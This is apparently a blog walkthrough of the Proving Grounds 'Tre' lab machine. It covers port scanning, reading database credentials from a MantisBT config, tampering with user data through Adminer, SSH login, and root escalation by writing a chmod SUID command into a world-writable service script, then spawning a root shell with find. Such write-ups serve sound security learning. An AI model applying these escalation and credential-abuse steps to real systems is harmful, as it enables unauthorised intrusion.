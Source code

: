 ```yaml
---
title: Tre
categories: [Proving Grounds Play]
tags: [PrivEsc, SUIDs, mysql]
image:
  path: https://miro.medium.com/v2/resize:fit:1400/1*tvdj2Mzlt4OnmYeU9vmBlA.jpeg
  alt:  Tre Machine 🖥️
---
```



### Lets see the IP address →

```bash
IP : 192.168.249.142
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.142
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-16 14:29 IST
Nmap scan report for 192.168.249.142
Host is up (0.00028s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
|_  256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
MAC Address: 00:0C:29:7F:7E:7D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

---

## Web Enumeration ➡️

Lets see the webpage →

![Untitled](/Vulnhub-Files/img/Tre/Untitled.png)

Now after directory Traversal I found different sites or directories running different services so lets see the config files first for credentials →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Tre/Untitled%202.png)

```bash
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```
{: .nolineno}

Lets use this credentials here `adminer.php` file →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%203.png)

After entering that data I am in →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%204.png)

Now I got the username and password credentials so lets alter that data and use it to login into the shell with our put data into it →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%205.png)

Now lets modify it now →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%206.png)

Now lets use this to replace our password hashes and save that →

I tried to access the ssh login with hash password but no luck , then I tried its different looking realnames and tried it as a passwords and see I got in as tre user →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo ssh tre@192.168.249.142     
tre@192.168.249.14 password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 12 23:56:00 2020 from 192.168.17.172
tre@tre:~$ whoami
tre
tre@tre:~$ id
uid=1000(tre) gid=1000(tre) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
tre@tre:~$
```
{: .nolineno}

Lets see `local.txt` file →

```bash
tre@tre:~$ ls -al
total 24
drwxr-xr-x 2 tre  tre  4096 Aug 23  2020 .
drwxr-xr-x 3 root root 4096 May 11  2020 ..
-rw-r--r-- 1 tre  tre   220 May 11  2020 .bash_logout
-rw-r--r-- 1 tre  tre  3526 May 11  2020 .bashrc
-rw-r--r-- 1 tre  tre    33 Jul 16 06:52 local.txt
-rw-r--r-- 1 tre  tre   807 May 11  2020 .profile
tre@tre:~$ cat local.txt
ec6b0276b5cbf898afe3bdb7c8da36b1
tre@tre:~$
```
{: .nolineno}

Now while cheching proccess running I got this →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%207.png)

```bash
tre@tre:/tmp$ ls -al /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
tre@tre:/tmp$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
tre@tre:/tmp$
tre@tre:/tmp$ cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
tre@tre:/tmp$
```
{: .nolineno}

So after trying this `sudo shutdown` I got this →

```bash
tre@tre:/tmp$ sudo shutdown
Shutdown scheduled for Sun 2023-07-16 06:28:59 EDT, use 'shutdown -c' to cancel.
tre@tre:/tmp$
```
{: .nolineno}

means that I execute my command on writing into `/usr/bin/check-system` file and when I execute the `sudo shutdown` command it will also execute as root user so lets do it —>

```bash
tre@tre:~$ echo 'chmod u+s /usr/bin/find'> /usr/bin/check-system
tre@tre:~$ sudo /sbin/shutdown -r now
tre@tre:~$ Connection to 192.168.249.142 closed by remote host.
Connection to 192.168.249.142 closed.
```
{: .nolineno}

Now its time to restart the tre shell with ssh commands and lets check the `/usr/bin/find` command got SUIDs permissions or not →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo ssh tre@192.168.249.142 -p 22    
tre@192.168.249.142s password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 16 06:35:35 2023 from 192.168.249.128
tre@tre:~$ ls -al /usr/bin/find
-rwsr-xr-x 1 root root 315904 Feb 16  2019 /usr/bin/find
tre@tre:~$ find . -exec /bin/bash -p \; -quit
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
bash-5.0# cd /root
bash-5.0# ls -al
total 24
drwx------  2 root root 4096 Jul 16 06:52 .
drwxr-xr-x 18 root root 4096 Jul  7  2020 ..
-rw-------  1 root root    0 Sep  3  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Jul 16 06:52 proof.txt
-rw-r--r--  1 root root   32 Aug 23  2020 root.txt
bash-5.0# cat proof.txt
71a1ba68d15d0ebde47c8b8090b065cf
bash-5.0# cat root.txt
Your flag is in another file...
bash-5.0#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }